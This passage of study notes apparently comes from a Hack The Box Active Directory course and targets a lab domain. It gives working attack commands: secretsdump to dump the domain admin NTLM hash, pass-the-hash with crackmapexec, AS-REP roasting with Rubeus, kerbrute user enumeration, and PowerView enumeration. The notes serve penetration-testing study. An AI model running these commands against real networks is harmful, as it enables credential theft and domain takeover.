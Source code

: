 - `dollarboysushil@htb[/htb]$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`
    
    this will give us the NTLM hash
    

### **Confirming Admin Access to the Domain Controller**

- `dollarboysushil@htb[/htb]$ crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf`

# **Miscellaneous Misconfigurations**

# **Enumerating DNS Records**

We can use a tool such as [adidnsdump](https://github.com/dirkjanm/adidnsdump) to enumerate all DNS records in a domain using a valid domain user account.

- `dollarboysushil@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`
    
    we can use `-r` flag to resolve unknown records
    
    data will be saved in `records.csv`
    

# **ASREPRoasting**

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.

First , search for account with Donot_req_preauth

- `PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`

- `PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`
or using kerbrute
- `dollarboysushil@htb[/htb]**$** kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

| Command | Description |
| --- | --- |
| Import-Module .\SecurityAssessment.ps1 | Used to import the module Security Assessment.ps1. Performed from a Windows-based host. |
| Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host. |
| adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 | Used to resolve all records in a DNS zone over LDAP from a Linux-based host. |
| adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host. |
| Get-DomainUser * | Select-Object samaccountname,description | PowerView tool used to display the description field of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol | PowerView tool used to check for the PASSWD_NOTREQD setting of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist